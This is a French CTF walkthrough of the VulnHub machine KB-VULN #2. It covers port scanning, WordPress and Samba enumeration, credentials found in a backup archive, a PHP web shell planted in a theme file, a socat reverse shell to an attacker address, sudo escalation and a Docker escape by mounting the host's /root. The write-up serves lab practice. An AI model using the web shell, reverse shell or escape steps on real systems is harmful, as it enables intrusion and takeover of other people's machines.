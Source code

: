 ```yaml
---
title: Solution du CTF KB-VULN #2 de VulnHub
tags: [CTF, VulnHub]
---
```


2 Rapides
---------

Voici donc [la suite](https://www.vulnhub.com/entry/kb-vuln-2,562/) du précédent CTF de la série.  

Un scan de port remonte du Samba et du Apache :  

```plain
Nmap scan report for 192.168.56.6
Host is up (0.00032s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:03:F4:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-12-07T12:23:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: kb-server
```

Sur le serveur web on trouve via énumération des dossiers un wordpress installé. Le module *wp\_enum* de *Wapiti* détecte quelques plugins et thèmes mais rien de critique :  

```plain
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
akismet 4.1.6 détecté
----
Enumération des thèmes WordPress :
twentytwenty 1.5 détecté
twentyseventeen  détecté
twentynineteen 1.7 détecté
```

Avec l'aide de *wpscan* j'obtiens la version du Wordpress :  

```plain
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'WordPress 5.5.1'
```

Là encore rien de critique. Direction Samba sur lequel on trouve un disque partagé avec une archive zip :  

```bash
$ smbclient  -U "" -N -L //192.168.56.6

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      OPEN YOUR EYES!
        IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$ smbclient  -U "" -N //192.168.56.6/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 12:58:56 2020
  ..                                  D        0  Wed Sep 16 12:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 12:58:56 2020

                14380040 blocks of size 1024. 8346256 blocks available
smb: \> lcd /tmp
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (80905,3 KiloBytes/sec) (average 80905,4 KiloBytes/sec)
```

A l'intérieur on trouve entre autres un fichier *remember\_me.txt* avec le contenu suivant :  

```plain
Username:admin
Password:MachineBoy141
```

Il y a aussi les identifiants de base de données dans la configuration du Wordpress :  

```php
define( 'DB_NAME', 'wordpress_db' );                                                                                   

/** MySQL database username */                                                                                         
define( 'DB_USER', 'kb_vuln' );                                                                                        

/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'hellelujah' );
```

Le mot de passe *MachineBoy141* ne permet pas un accès sur SSH / SMB mais permet d'accéder à la zone d'administration du Wordpress.  

La technique habituelle consiste à éditer un fichier PHP via l'interface de Wordpress. On peut éditer les fichiers des thèmes installés mais tous ne permettent pas la modification (en raison des permissions sur les fichiers).  

Finalement j'ai édité le fichier *wp-content/themes/twentynineteen/404.php* pour y mettre le code suivant au début :  

```php
if (isset($_GET["cmd"])) { echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; }
```

2 Furieux
---------

D'après les interfaces réseau on est dans un Docker :  

```plain
3: docker0:  mtu 1500 qdisc noqueue state DOWN group default 
 link/ether 02:42:21:e3:e8:8c brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
 valid\_lft forever preferred\_lft forever
```

*socat* est présent alors j'en profite pour récupérer un reverse shell avec PTY.  

Côté attaquant : 
```bash
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Côté victime : 
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

En réutilisant les identifiants SQL je fouille dans le serveur MySQL local mais je ne trouve rien d'intéressant.  

Il y a un utilisateur *kbadmin* sur la machine et il utilise le même mot de passe que le Wordpress (*MachineBoy141*) on peut accéder au compte via la commande *su*.  

On peut se connecter aussi directement via SSH mais le service est dans le container donc aucun gain.  

L'utilisateur a des autorisations *sudo* pour passer root :  

```plain
kbadmin@kb-server:/$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL

root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Toutefois on est toujours dans le container, il est temps de s'échapper. Là encore on va employer une technique classique d'escalade de privilèges via Docker consistant à monter le disque de l'hôte dans le container.  

[Voir ici](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html) pour plus d'informations sur les risques de lancer un container Docker avec privilèges.  

Mon problème est que la VM n'a pas d'accès Internet, je ne peux donc pas faire un simple Docker pull. A la place je vais créer une archive d'une image Alpine Linux pour la copier ensuite dans la VM.  

```bash
$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

$ docker images -a
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
alpine              latest    c059bfaa849c   12 days ago    5.58MB

$ docker save --output alpine.tar c059bfaa849c
```

Ensuite je charge l'image et l'exécute en montant le */root* de l'hôte :  

```bash
kbadmin@kb-server:~$ docker load --input alpine.tar
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image ID: sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18

kbadmin@kb-server:~$ docker run -it -v /root:/real_root sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18
/ # ls /
bin        dev        etc        home       lib        media      mnt        opt        proc       real_root  root       run        sbin       srv        sys        tmp        usr        var
/ # ls /real_root/
flag.txt
/ # cd /real_root/
/real_root # cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Evalal'travail !  


*Published December 08 2021 at 12:07*
